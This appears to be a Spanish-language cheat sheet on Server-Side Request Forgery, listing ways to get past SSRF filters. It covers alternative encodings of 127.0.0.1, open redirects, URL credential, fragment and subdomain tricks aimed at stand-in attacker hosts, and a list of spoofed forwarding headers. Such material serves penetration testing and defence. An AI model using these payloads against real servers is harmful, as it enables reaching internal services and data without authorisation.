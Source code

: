 ```yaml
---

### 🚀 **Server-Side Request Forgery (SSRF) Cheat Sheet**

---
```

---
### **1. Usar Representación Alternativa de IP**
Representaciones de la IP `127.0.0.1`:
- **Decimal:** `2130706433`
- **Octal:** `017700000001`
- **Forma abreviada:** `127.1`

---

### **2. Registrar un Dominio Controlado**
Registra un dominio propio que resuelva a `127.0.0.1` para realizar pruebas o explotar la vulnerabilidad:  
- Ejemplo: `spoofed.burpcollaborator.net`

---

### **3. Ofuscar Cadenas Bloqueadas**
- **URL Encoding:** Convertir caracteres especiales. Ejemplo:  
  ```
  /admin → %2Fadmin
  ```
- **Case Variation:** Cambiar entre mayúsculas y minúsculas:  
  ```
  /Admin → /admin
  ```
---

### **4. Usar Redirecciones**
Configura una redirección en un dominio controlado para apuntar a la URL objetivo.  
- **Entrada del usuario:**  
  ```
  http://malicious-site.com/redirect?url=http://target-site.com/admin
  ```
- **Cambio de Protocolo:**  
  ```
  http://malicious-site.com/redirect?url=https://target-site.com/admin
  ```
---

## **Técnicas de Evasión Adicionales**

### **Embedding Credentials en la URL**
Se pueden incrustar credenciales dentro de la URL usando `@`:  
```http
https://expected-host:fakepassword@evil-host
```
- El servidor ignora las credenciales y hace la solicitud a `evil-host`.

---

### **Uso del Carácter `#` para Fragmentos**
El carácter `#` indica el inicio de un fragmento, que **no es enviado al servidor**:  
```http
https://evil-host#expected-host
```
- El servidor accede a `evil-host` ignorando el fragmento.

---

### **Jerarquía de Nombres de Dominio**
El atacante puede usar el nombre de host como subdominio de un dominio controlado:  
```http
https://expected-host.evil-host
```
- El servidor hace la solicitud a `evil-host`.

---

## **Ejemplos Prácticos**

### **1. Embedding Credentials:**
```http
https://example.com?url=https://internal-service:fakepassword@malicious.com
```
- El servidor intenta acceder a `https://malicious.com`.

---

### **2. Uso de Fragmento en la URL:**
```http
https://example.com?url=https://malicious.com#internal-service
```
- El servidor ignora el fragmento y accede a `https://malicious.com`.

---

### **3. Jerarquía de Dominio (DNS Naming Hierarchy):**
```http
https://example.com?url=https://internal-service.malicious.com
```
- El servidor hace la solicitud al dominio controlado por el atacante.

---

## **Cabeceras HTTP para Evasión de SSRF**
Algunas cabeceras útiles para intentar redirigir o manipular la solicitud:

```http
Host: vulnerable-website.com
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: attacker.com
X-Forwarded-Server: attacker.com
X-Forwarded-Port: 80
Forwarded: for=127.0.0.1;host=attacker.com;proto=http
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Referer: http://attacker.com
Origin: http://attacker.com
X-Forwarded-By: 127.0.0.1
X-Forwarded-Proto: https
Via: 1.1 attacker.com
X-Api-Version: 1.0
Max-Forwards: 10
X-Wap-Profile: http://attacker.com
Proxy-Authorization: Basic Zm9vOmJhcg==
Surrogate-Capability: attacker="Surrogate/1.0"
```

---

